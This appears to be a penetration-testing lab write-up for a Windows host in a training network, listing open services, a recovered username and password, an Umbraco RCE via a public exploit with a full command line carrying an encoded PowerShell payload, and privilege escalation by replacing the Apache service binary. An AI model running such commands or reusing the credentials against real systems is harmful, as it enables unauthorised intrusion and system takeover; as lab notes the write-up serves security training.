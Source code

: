 ### ++ Approach ++
#### Credentials
	* mark@relia.com:OathDeeplyReprieve91 (umbraco login)

#### Services
	##### 80 HTTP
        Just informational pdfs

	##### 443 HTTPS
        -

	##### 14080 HTTP
        Umbraco 7.12.4 webapp
    
    ##### 139,445 SMB
        -

    ##### 135,49664-69 RPC
        -

    ##### 3389 RDP
        -

    ##### 5985,47001 WinRM
        -

    ##### 14020 FileZilla
        Found pdf for installing Umbraco 7, here we found mark creds and domain web02.relia.com so we added it to hosts file

### ++ Vulnerabilities ++

#### Vuln 1: Sensitive files in FTP server ++
	* In port 14020 we found a null session for FTP with creds and sensitive information for webapp hosted in port 14080

#### Vuln 2: RCE in Umbraco webapp (Port 14080) ++
	* https://www.exploit-db.com/exploits/49488
    * Command: python3 49488.py -u 'mark@relia.com' -p 'OathDeeplyReprieve91' -i http://web02.relia.com:14080 -c 'cmd.exe' -a '/c powershell -e JABjAGwAa...'

#### Vuln 3: Apache2.4 with misconfigured permissions ++
	* Low-privileged user can abuse Apache2.4 service by placing a payload in C:\xampp\apache\bin\httpd.exe and restarting the service

### ++ System Interaction ++
#### Foothold  
	* Follow vulnerabilities 1 and 2

#### Privilege Escalation 
	* Abuse service Apache2.4 and get nt authority\system

#### Attack chain
	* Follow vulnerabilities 1 and 2
    * Abuse service Apache2.4 and get nt authority\system
	
#### Post-exploitation 
	* Dump mark and zachary users